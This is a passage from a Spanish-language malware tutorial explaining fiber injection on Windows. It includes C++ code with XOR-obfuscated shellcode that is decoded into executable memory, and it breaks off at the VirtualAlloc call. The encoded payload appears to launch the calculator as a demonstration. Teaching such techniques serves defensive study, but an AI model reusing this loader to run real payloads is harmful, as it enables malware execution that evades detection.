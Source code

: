 **Ojo**: esto solo seria en el contexto del malware, tambien hay otro contexto de los timming attack que son los ```side channel timing attack``` o en español, ```ataques de canal lateral basados en temporizadores```, pero eso es otro tema que no importa en este momento.

### Fiber injection

Es muy simple, la inyeccion de fibras se refiere a inyectar una fibra en el flujo de ejecucion del proceso, para implementar una inyeccion clasica de este tipo, se usan las funciones.

- **ConvertThreadToFiber()**: Para convertir el hilo principal en una fibra
- **VirtualAlloc()**: Para asignar memoria para la fibra
- **CreateFiber()**: Para crear una nueva fibra que contendra la shellcode
- **SwitchToFiber()**: Para ejecutar la fibra que tiene la shellcode

Llamando a las funciones en ese orden podriamos hacer una fiber injection clasica, pero al fin de cuenta esto es programacion, y cada quien la puede implementar como le sale de su cabecita, o dependiendo del contexto donde se vaya a ejecutar, ahora te voy a explicar como la implemente, primero de pondre todo el codigo y te explicare que es lo que hace

#### Codigo completo
Fue escrito y compilado desde Dev C++

```cpp
#include <windows.h>
#include <winuser.h>

void fiber_injection(){
	unsigned char shellcode[] = {
	    "\x86\x32\xf9\x9e\x8a\x92\xba\x7a\x7a\x7a\x3b\x2b\x3b\x2a"
	    "\x28\x2b\x2c\x32\x4b\xa8\x1f\x32\xf1\x28\x1a\x32\xf1\x28"
	    "\x62\x32\xf1\x28\x5a\x32\xf1\x08\x2a\x32\x75\xcd\x30\x30"
	    "\x37\x4b\xb3\x32\x4b\xba\xd6\x46\x1b\x06\x78\x56\x5a\x3b"
	    "\xbb\xb3\x77\x3b\x7b\xbb\x98\x97\x28\x3b\x2b\x32\xf1\x28"
	    "\x5a\xf1\x38\x46\x32\x7b\xaa\xf1\xfa\xf2\x7a\x7a\x7a\x32"
	    "\xff\xba\x0e\x1d\x32\x7b\xaa\x2a\xf1\x32\x62\x3e\xf1\x3a"
	    "\x5a\x33\x7b\xaa\x99\x2c\x32\x85\xb3\x3b\xf1\x4e\xf2\x32"
	    "\x7b\xac\x37\x4b\xb3\x32\x4b\xba\xd6\x3b\xbb\xb3\x77\x3b"
	    "\x7b\xbb\x42\x9a\x0f\x8b\x36\x79\x36\x5e\x72\x3f\x43\xab"
	    "\x0f\xa2\x22\x3e\xf1\x3a\x5e\x33\x7b\xaa\x1c\x3b\xf1\x76"
	    "\x32\x3e\xf1\x3a\x66\x33\x7b\xaa\x3b\xf1\x7e\xf2\x32\x7b"
	    "\xaa\x3b\x22\x3b\x22\x24\x23\x20\x3b\x22\x3b\x23\x3b\x20"
	    "\x32\xf9\x96\x5a\x3b\x28\x85\x9a\x22\x3b\x23\x20\x32\xf1"
	    "\x68\x93\x2d\x85\x85\x85\x27\x32\xc0\x7b\x7a\x7a\x7a\x7a"
	    "\x7a\x7a\x7a\x32\xf7\xf7\x7b\x7b\x7a\x7a\x3b\xc0\x4b\xf1"
	    "\x15\xfd\x85\xaf\xc1\x8a\xcf\xd8\x2c\x3b\xc0\xdc\xef\xc7"
	    "\xe7\x85\xaf\x32\xf9\xbe\x52\x46\x7c\x06\x70\xfa\x81\x9a"
	    "\x0f\x7f\xc1\x3d\x69\x08\x15\x10\x7a\x23\x3b\xf3\xa0\x85"
	    "\xaf\x19\x1b\x16\x19\x54\x1f\x02\x1f\x7a"
	};

	for (int i = 0; i < sizeof(shellcode); i++){
		shellcode[i] = (byte)(shellcode[i] ^ (byte)'z');
	}

  	unsigned int shellcode_len = sizeof(shellcode);

	LPVOID exec_mem;
	LPVOID shellcode_fiber; 

	exec_mem = VirtualAlloc(
	    NULL,
	    shellcode_len,
	    MEM_COMMIT,
	    PAGE_EXECUTE_READWRITE
	);
```